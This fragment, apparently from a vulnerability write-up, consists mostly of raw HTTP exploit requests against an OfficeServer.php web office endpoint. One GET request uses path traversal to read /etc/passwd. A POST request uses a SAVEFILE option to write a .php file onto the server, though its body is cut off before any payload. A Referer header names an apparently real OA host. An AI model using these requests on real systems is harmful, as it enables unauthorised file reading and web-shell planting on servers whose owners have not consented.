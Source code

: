 ```plain
GET /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22LOADFILE%22,%22FILEPATH%22:%22/../../../../../../../../../../../etc/passwd%22} HTTP/1.1
Host: xxxx
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://oa1.shuidinet.com/index.php/oa/main/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

[![](assets/1709083162-bb5fa3b3cc0eda7ebf6aba300fcd4e9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110341-cf711ab8-d51c-1.png)

```plain
POST /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22SAVEFILE%22,"FILEPATH":"/222.php"} HTTP/1.1
Host: xxxx
Content-Length: 202
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
```
